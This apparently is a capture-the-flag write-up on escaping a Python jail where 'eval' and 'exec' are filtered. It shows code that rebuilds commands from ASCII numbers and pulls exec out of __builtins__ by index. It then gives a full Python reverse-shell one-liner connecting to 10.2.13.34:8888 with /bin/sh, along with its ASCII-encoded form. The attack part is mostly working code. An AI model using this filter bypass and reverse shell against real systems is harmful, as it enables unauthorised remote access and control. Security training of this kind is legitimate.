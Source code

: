 We have access to `eval and exec` method. Maybe we can encode our script and pass it to eval ?

We can build the command `import os; os.system('ls')` using ascii ref like this :
```py
cmd_ascii= [105, 109, 112, 111, 114, 116, 32, 111, 115, 59, 32, 111, 115, 46, 115, 121, 115, 116, 101, 109, 40, 39, 108, 115, 39, 41]

cmd = ""

for c in cmd_ascii:
  cmd += chr(c)

print(cmd)
```

But `eval` and `exec` are filtered...

So what we can do is retrieve the function from the `__builtins__` object.
We manually retrieve the index of `exec` which is `101` and we do :
```py
method_names = dir(__builtins__)

fct_name = method_names[101]

fct = getattr(__builtins__,fct_name)

cmd_ascii= [105, 109, 112, 111, 114, 116, 32, 111, 115, 59, 32, 111, 115, 46, 115, 121, 115, 116, 101, 109, 40, 39, 108, 115, 39, 41]

cmd = ""

for c in cmd_ascii:
  cmd += chr(c)

print(fct(cmd))
```

This will execute the `import os; os.system('ls')` command.

Let's get a reverse shell i guess ?

We will run 
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.2.13.34",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

And we got a shell.

The full runned command is :
```py
method_names = dir(__builtins__)

fct_name = method_names[101]

fct = getattr(__builtins__,fct_name)

cmd_ascii= [105, 109, 112, 111, 114, 116, 32, 115, 111, 99, 107, 101, 116, 44, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 44, 111, 115, 59, 115, 61, 115, 111, 99, 107, 101, 116, 46, 115, 111, 99, 107, 101, 116, 40, 115, 111, 99, 107, 101, 116, 46, 65, 70, 95, 73, 78, 69, 84, 44, 115, 111, 99, 107, 101, 116, 46, 83, 79, 67, 75, 95, 83, 84, 82, 69, 65, 77, 41, 59, 115, 46, 99, 111, 110, 110, 101, 99, 116, 40, 40, 34, 49, 48, 46, 50, 46, 49, 51, 46, 51, 52, 34, 44, 56, 56, 56, 56, 41, 41, 59, 111, 115, 46, 100, 117, 112, 50, 40, 115, 46, 102, 105, 108, 101, 110, 111, 40, 41, 44, 48, 41, 59, 32, 111, 115, 46, 100, 117, 112, 50, 40, 115, 46, 102, 105, 108, 101, 110, 111, 40, 41, 44, 49, 41, 59, 32, 111, 115, 46, 100, 117, 112, 50, 40, 115, 46, 102, 105, 108, 101, 110, 111, 40, 41, 44, 50, 41, 59, 112, 61, 115, 117, 98, 112, 114, 111, 99, 101, 115, 115, 46, 99, 97, 108, 108, 40, 91, 34, 47, 98, 105, 110, 47, 115, 104, 34, 44, 34, 45, 105, 34, 93, 41, 59]

```